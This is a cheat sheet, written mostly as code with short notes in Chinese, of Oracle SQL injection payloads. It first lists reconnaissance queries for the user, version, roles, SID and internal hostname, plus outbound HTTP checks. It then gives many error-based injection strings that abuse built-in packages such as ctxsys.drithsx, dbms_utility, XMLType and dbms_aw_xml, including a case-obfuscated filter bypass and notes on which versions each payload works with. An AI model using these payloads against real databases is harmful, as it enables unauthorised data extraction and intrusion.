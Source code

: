 `1.信息获取`

    select user from dual #当前用户
    SELECT banner FROM v$version WHERE banner LIKE 'Oracle%';   #oracle版本
    select wmsys.wm_concat(granted_role) from user_role_privs-- 看赋予角色权限
    select instance_name from v$instance#服务器sid 远程链接需要
    select utl_inaddr.get_host_name('127.0.0.1') from dual; #查询内网hostname win08dc.contoso.com
    SELECT UTL_HTTP.REQUEST('http://localhost') FROM dual;  #对外通信
    SELECT UTL_INADDR.get_host_address('localhost.com') FROM dual;
    select table_name from user_tables where lower(table_name)='books'   #查看books表书否存在
    
`2.Error Based(报错注入)`

    (10g or 11g)
    ' and 1 = ctxsys.drithsx.sn(1,(select user from dual))--  
    and 1=(dbms_utility.sqlid_to_sqlhash((select banner from sys.v_$version where rownum=1))) and 1=1. 
    ' and 1=(SELECT UPPER(XMLType(CHR(60)||CHR(58)||CHR(113)||CHR(122)||CHR(120)||CHR(98)||CHR(113)||(SELECT (CASE WHEN (4113=4113) THEN 1 ELSE 0 END) FROM DUAL)||CHR(113)||CHR(118)||CHR(107)||CHR(107)||CHR(113)||CHR(62))) FROM DUAL)--  
    ' and dbms_xdb_version.checkin((select user from dual))='1'--  
    ' and dbms_xdb_version.makeversioned((select user from dual))='1'--  
    ' and dbms_utility.sqlid_to_sqlhash((select user from dual))='1'--  
    ' and dbms_utility.sqlid_to_sqlhash((select user from dual))='1'--  
    ' and 1=(select decode(substr(user,1,1),'S',(1/0),0) from dual)--     #user第一位是S ORA-01476: divisor is equal to zero 
    ' order by (SELECT (CASE WHEN (2434=2434||utl_inaddr.get_host_name((select banner from v$version where rownum=1))) THEN 2434 ELSE CAST(1 AS INT)/0 END) FROM DUAL)--%'  

    11g普通用户不能用的#utl_inaddr not work maybe acl(11g normal user) or java not installed etc
    '||utl_inaddr.get_host_address((select banner from v$version where rownum=1))||'    
    '||utl_inaddr.get_host_name((select banner from v$version where rownum=1))||'

    10g不能用的
    ' and dbms_aw_xml.readawmetadata((select sys_context('USERENV', 'SESSION_USER') from dual), null) is null --    #(11g 10g报错ORA-29532: Java call terminated by uncaught Java exception: java.lang.OutOfMemoryError)
    ' or dbMS_aW_xMl.reAdaWmetaData((select sYS_cONtExt('US' || 'ERENV', 'SESS' || 'ION_US' || 'ER') from dUAl), null) is null --# bypass 1
    ' and 1=(ordsys.ord_dicom.getmappingxpath((select user from dual),user,user))-- 
    
    
